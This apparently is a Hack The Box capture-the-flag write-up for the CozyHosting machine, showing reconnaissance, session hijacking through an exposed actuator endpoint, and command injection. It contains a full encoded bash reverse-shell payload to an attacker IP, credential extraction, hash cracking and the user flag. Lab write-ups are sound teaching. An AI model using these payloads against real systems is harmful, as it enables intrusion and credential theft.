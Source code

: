 # CozyHosting
> Write-up author: jon-brandy

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fa4c16d1-f3fe-47c6-810f-466d37c566a6)

## STEPS:
> PORT SCANNING

```
┌──(brandy㉿bread-yolk)-[~]
└─$ nmap -p- -sVC 10.10.11.230 --min-rate 1000
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-30 22:59 PDT
Nmap scan report for 10.10.11.230
Host is up (0.032s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4356bca7f2ec46ddc10f83304c2caaa8 (ECDSA)
|_  256 6f7a6c3fa68de27595d47b71ac4f7e42 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.72 seconds
```

1. Based from the nmap results, the machine runs a webapp and opens ssh logins.

> WEBAPP

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fd9b7161-dbf0-4b00-b073-ef80301da3e2)


2. The wappalyzer itself shows us minimum info (for version).

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1850a964-0b31-4a53-961a-1beee364802c)


3. Hence i ran dirsearch to list all directories or files available for this webapp.

> RESULTS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5697fb2f-fb43-476f-8efc-705146d76b30)


4. `admin` page and `actuator` directory should be our interest here.
5. Opens `actuator/sessions` shall resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/617cbf55-e5f0-470d-a54c-53965f5817bb)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e95e9939-f036-4f73-af4a-6a7330e23f2c)


6. Noticed there's a user session with name `kanderson` (Informatin Disclosure).
7. Let's change our session to kanderson's, then refresh the page.

 ![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a7c8c241-4cfa-4d95-a058-7c0bdd8b7d4f)


> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fac50408-3393-41e8-8df3-b4d2f3cf9604)


8. Scrolling down you shall see an input box.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/dbbc52af-baf7-45d6-9dd8-036986c88b27)


9. This should be our interest. To identify what's the vuln, let's capture the request we send using burpsuite.
10. Let's just fill the hostname with our tun0 interface and leave username empty, we just want to know what response might the server give.

> IN BURPSUITE

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c2035f5f-dcc6-41f9-9f08-2a892ecfe5ba)


11. Noticed the server responds an error for the ssh command.
12. This make it clear, that the vuln should be related to command injection.
13. The idea is using basic bash reverse shell payload:

> BASH REVERSE SHELL PAYLOAD

```txt
bash -i >& /dev/tcp/10.10.16.14/1337 0>&1
```

> ENCODE IT TO BASE64 (adding -w 0, to make sure the output is a single line command)

```
echo "bash -i >& /dev/tcp/10.10.16.14/1337 0>&1" | base64 -w 0
```

> RESULT

```
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK
```

14. Great! Now for the final payload, because we want the server to decode our payload first then execute it, hence we use `base64 -d`.
15. But again, we need to encode it again with `url-encode` to terminate all the spaces.
16. The best practice is to use --> `${IFS%??}` to avoid spaces or other characters that may be treated as delimiters by the shell.
17. Then we url-encode the payload, set listener and send our payload.

> PAYLOAD

```
Original one:

echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK" | base64 -d | bash;

Adding ${IFS%??} to covering whitespaces

;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

URL-ENCODE:

%3Becho%24%7BIFS%25%3F%3F%7D%22YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNi4xNC8xMzM3IDA%2BJjEK%22%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbase64%24%7BIFS%25%3F%3F%7D%2Dd%24%7BIFS%25%3F%3F%7D%7C%24%7BIFS%25%3F%3F%7Dbash%3B
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8d7f115a-0819-4aa5-b627-3d54677ed0cd)


18. At this point we can't get user flag, because we're not having the shell as "josh".

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/a925e28b-c55b-4833-b19a-99e927f38459)


19. Noticed there's a .jar file which might be our interest.
20. Let's setup a python server at the remote server and download the file to our local machine.

#### NOTES: setup python server at port other than 80.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/1b6709ea-e312-4421-8cce-40996c53d1df)


21. Well if you noticed, it failed to download it full.
22. Hmm, confused here, but anyway since we opens python server at port 8000, accessing the remote host with port 8000 shall shown this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/0baf88f9-bf8d-49f3-8c81-5a60662244b9)


23. Let's download it manually.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b6b219f6-0f33-4010-bc31-003450d26de8)


> DECOMPILING IT WITH JD-GUI

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/017cf7f2-8d89-4797-b0fa-24d2f0c283dd)


24. Interesting, we found a **postgres** cred.
25. Let's access `psql` at the remote server.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/01837280-db9b-4d0b-a325-512bf643d3a7)


26. Run --> `\l` to list all the databases available.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/8f630db5-1b44-4adc-89a3-759db0298432)


27. Great! Let's connect to `cozyhosting` --> run `\c cozyhosting`.
28. To dump all the tables run -> `\d`.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/de6584c5-0f47-4752-8e01-a0880437bae1)


> DUMPING users column.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/18e97676-389a-4574-925f-665faf90e4ab)


29. Interesting, **users** table should be our interest. Let's select all from it.

> SELECT * FROM public.users;

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7df3bd4f-d4c7-4b02-bd63-8c6bce6324f6)


30 Awesome! Let's crack all the hashed password with john.
31. I started to cracking the first hash with john and while waiting for john to cracks hash, I identify the hash using `hashid`, which allows to use **hashcat**.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/10b7aec7-339c-4a98-8c7a-4f7d90adf1e5)


32. Because time is money 🙏🏼.

> GRABBING THE HASHCAT CODE FOR BCRYPT.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/6ecb07c4-8c7c-415f-b4f2-14ab9e974068)


33. Found nothing for the kanderson's hash.
34. But succeed cracks the password for admin's hash.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/143e3bf4-794a-4bd8-871c-1b5ad173d2dd)


35. Hmm.. Remembering our remote /home dir is **josh**, we make an interpretes of potential **password reuse**.
36. Turns out it is.

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3c28583-d323-4156-be5d-19fbdb29790a)


> GETTING USER FLAG

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/37046df1-18e2-47d6-9adb-ccdb4cfee70f)


## USER FLAG

```
83cfd0650592f468972d63e44761211a
```

37. Checking sudo permissions for **josh** resulting to this:

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/60eef894-3c47-425b-9de4-d733ef3ed2a3)


38. **ssh** command is being run as root. 





